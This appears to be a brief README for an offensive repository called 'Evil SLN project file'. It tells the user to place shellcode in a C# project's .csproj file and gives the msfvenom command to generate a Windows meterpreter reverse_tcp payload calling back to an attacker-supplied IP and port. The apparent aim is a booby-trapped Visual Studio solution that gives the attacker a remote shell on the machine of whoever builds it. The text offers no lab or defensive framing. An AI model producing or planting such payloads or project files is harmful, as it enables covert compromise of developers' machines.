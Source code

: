 # Evil SLN project file

change the shellcode in ConsoleApplication1/ConsoleApplication1.csproj

## generate shellcode

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ur-ip> LPORT=<ur-port> -f csharp  

